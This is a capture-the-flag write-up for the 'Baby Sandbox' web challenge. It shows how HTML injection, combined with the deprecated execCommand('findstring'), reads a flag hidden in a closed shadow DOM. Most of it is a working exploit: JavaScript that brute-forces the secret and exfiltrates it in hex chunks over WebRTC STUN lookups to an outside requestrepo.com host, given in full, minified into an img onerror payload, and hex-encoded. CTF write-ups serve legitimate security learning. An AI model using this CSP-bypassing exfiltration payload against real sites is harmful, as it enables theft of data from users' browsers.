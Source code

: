 ```yaml
---
title: TRX CTF 25 - Baby Sandbox
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- web
- client side
- shadow DOM
- iframe
authors:
- salvatore.abello
---
```


This is an easy client-side challenge

## Overview

We're given a few files
 - `server.js`: Contains the server code. We can see that the server serves files with a strict CSP:
```js
app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'none'; frame-ancestors 'none'; base-uri 'none'; form-action 'none'; script-src 'self' 'unsafe-inline';");
    next()
})
```

 - `iframe.ejs`: A simple HTML file with an obvious HTML injection:
```js
      let d = document.createElement("div");
      d.innerHTML = "<%= payload %>";
      document.body.appendChild(d);
```
 - `index.ejs`: The content of `index.ejs` will be put inside an iframe

 - `bot.js`: Contains the bot code. It's clear that the flag will be stored in local storage. We can supply a payload to the `visit` function, which will then be viewed by the bot. Note that the bot will sleep for a short period after viewing our payload.

Finally, before inserting our payload, the flag will be placed inside a closed [shadow DOM](https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_shadow_DOM), making it inaccessible from JavaScript.

To bypass this restriction, we can use a deprecated feature: [document.execCommand](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand)

Specifically, we can use a lesser-known command: `findstring`:
 - `document.execCommand("findstring", false, <substring>)`, returns true if the substring is found, and false otherwise. I found it [here](https://chromium.googlesource.com/chromium/src/+/refs/tags/131.0.6778.244/third_party/blink/renderer/core/editing/commands/editor_command_names.h)


After brute-forcing the flag, we can split it into chunks and exfiltrate it using WebRTC or any other method that does not violate the CSP.

Note: since our payload will be escaped, we had to encode it using the following function
```js
def encode(payload):
    result = ""
    for c in payload:
        result += "\\x" + hex(ord(c))[2:].zfill(2)
    return result
```

## Final Exploit
```js
(() => {
    function toHex(str) {
        let hex = '';
        for(let i = 0; i < str.length; i++) {
            hex += str.charCodeAt(i).toString(16);
        }
        return hex;
    }

    let flag = "TRX{";
    let charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}";
    for(let i = 0; i < 128; i++){
        for(let c in charset){
            res = document.execCommand("findstring", false, flag+charset[c]);
            if(res){
                flag += charset[c];
                break;
            }
        }
    }

    let chunkSize = 4;
    for (let i = 0; i < flag.length; i += chunkSize) {
        let chunk = flag.substring(i, i + chunkSize);
        console.log(chunk);
        let pc = new RTCPeerConnection({"iceServers":[{"urls":["stun:" + toHex(chunk) + "." + i + ".az5f3of1.requestrepo.com"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o => pc.setLocalDescription(o)).catch(e => console.error(e));
    }
    })();
```

You can then compress this and put it inside an `img` tag:
```html
<img src="#" onerror='(()=>{let o="TRX{";var r="abcdefghijklmnopqrstuvwxyz0123456789_{}";for(let e=0;e<128;e++)for(var t in r)res=document.execCommand("findstring",!1,o+r[t]),res&&(o+=r[t]);for(let e=0;e<o.length;e+=4){var n=o.substring(e,e+4);console.log(n);let r=new RTCPeerConnection({iceServers:[{urls:["stun:"+function(r){let o="";for(let e=0;e<r.length;e++)o+=r.charCodeAt(e).toString(16);return o}(n)+"."+e+".az5f3of1.requestrepo.com"]}]});r.createOffer({offerToReceiveAudio:1}).then(e=>r.setLocalDescription(e)).catch(e=>console.error(e))}})();'>
```

Encoded payload:
```js
\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x22\x23\x22\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x27\x28\x28\x29\x3d\x3e\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x54\x52\x58\x7b\x22\x3b\x76\x61\x72\x20\x72\x3d\x22\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x5f\x7b\x7d\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x31\x32\x38\x3b\x65\x2b\x2b\x29\x66\x6f\x72\x28\x76\x61\x72\x20\x74\x20\x69\x6e\x20\x72\x29\x72\x65\x73\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x65\x78\x65\x63\x43\x6f\x6d\x6d\x61\x6e\x64\x28\x22\x66\x69\x6e\x64\x73\x74\x72\x69\x6e\x67\x22\x2c\x21\x31\x2c\x6f\x2b\x72\x5b\x74\x5d\x29\x2c\x72\x65\x73\x26\x26\x28\x6f\x2b\x3d\x72\x5b\x74\x5d\x29\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x6f\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x3d\x34\x29\x7b\x76\x61\x72\x20\x6e\x3d\x6f\x2e\x73\x75\x62\x73\x74\x72\x69\x6e\x67\x28\x65\x2c\x65\x2b\x34\x29\x3b\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x6c\x6f\x67\x28\x6e\x29\x3b\x6c\x65\x74\x20\x72\x3d\x6e\x65\x77\x20\x52\x54\x43\x50\x65\x65\x72\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x28\x7b\x69\x63\x65\x53\x65\x72\x76\x65\x72\x73\x3a\x5b\x7b\x75\x72\x6c\x73\x3a\x5b\x22\x73\x74\x75\x6e\x3a\x22\x2b\x66\x75\x6e\x63\x74\x69\x6f\x6e\x28\x72\x29\x7b\x6c\x65\x74\x20\x6f\x3d\x22\x22\x3b\x66\x6f\x72\x28\x6c\x65\x74\x20\x65\x3d\x30\x3b\x65\x3c\x72\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x65\x2b\x2b\x29\x6f\x2b\x3d\x72\x2e\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74\x28\x65\x29\x2e\x74\x6f\x53\x74\x72\x69\x6e\x67\x28\x31\x36\x29\x3b\x72\x65\x74\x75\x72\x6e\x20\x6f\x7d\x28\x6e\x29\x2b\x22\x2e\x22\x2b\x65\x2b\x22\x2e\x61\x7a\x35\x66\x33\x6f\x66\x31\x2e\x72\x65\x71\x75\x65\x73\x74\x72\x65\x70\x6f\x2e\x63\x6f\x6d\x22\x5d\x7d\x5d\x7d\x29\x3b\x72\x2e\x63\x72\x65\x61\x74\x65\x4f\x66\x66\x65\x72\x28\x7b\x6f\x66\x66\x65\x72\x54\x6f\x52\x65\x63\x65\x69\x76\x65\x41\x75\x64\x69\x6f\x3a\x31\x7d\x29\x2e\x74\x68\x65\x6e\x28\x65\x3d\x3e\x72\x2e\x73\x65\x74\x4c\x6f\x63\x61\x6c\x44\x65\x73\x63\x72\x69\x70\x74\x69\x6f\x6e\x28\x65\x29\x29\x2e\x63\x61\x74\x63\x68\x28\x65\x3d\x3e\x63\x6f\x6e\x73\x6f\x6c\x65\x2e\x65\x72\x72\x6f\x72\x28\x65\x29\x29\x7d\x7d\x29\x28\x29\x3b\x27\x3e
```
